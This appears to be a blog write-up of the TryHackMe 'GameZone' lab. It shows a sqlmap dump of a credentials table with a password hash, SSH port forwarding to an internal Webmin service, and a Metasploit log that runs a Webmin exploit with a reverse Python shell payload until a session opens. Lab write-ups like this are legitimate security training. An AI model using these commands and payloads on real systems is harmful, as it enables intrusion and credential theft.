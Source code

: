 ```yaml
---
layout : post 
title: GameZone

date: 2021-04-24 01:43 +0530
tags: [hashcat ,SSH PortForwording ]
---
```

# nmap

# Enumeration 

# Exploitation 
sqlinjection on port 80 

![]({{site.baseurl}}/img/tryhackme/gamezone/sqli.png)

copy the web req and save it as sql.txt to use with sql map

![]({{site.baseurl}}/img/tryhackme/gamezone/afterlogin.png)

>  sqlmap -r sql.txt --dbms=mysql --dump

![]({{site.baseurl}}/img/tryhackme/gamezone/sqlmamp.png)
```
sql table

+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```
Cracking the hash 

![]({{site.baseurl}}/img/tryhackme/gamezone/crackstation.png)

<h3>ssh port forword</h3>

>ssh -L 10000:localhost:10000 agent47@10.10.231.199

![]({{site.baseurl}}/img/tryhackme/gamezone/service.png)

# Privilage Esclation 

![]({{site.baseurl}}/img/tryhackme/gamezone/webmin.png)

```bash
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[-] Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set lhost 10.9.202.83
lhost => 10.9.202.83
msf6 exploit(unix/webapp/webmin_show_cgi_exec) >set lport 5555
lport => 5555
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Authentication failed
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set rhost localhost
rhost => localhost
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Exploit failed [unreachable]: OpenSSL::SSL::SSLError SSL_connect returned=1 errno=0 state=error: wrong version number
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false 
[!] Changing the SSL option s value may require changing RPORT!
SSL => false
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Command shell session 1 opened (10.9.202.83:5555 -> 10.10.231.199:38944) at 2021-04-24 02:37:46 -0400
[*] Session 1 created in the background.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > sessions 1 
[*] Starting interaction with 1...

```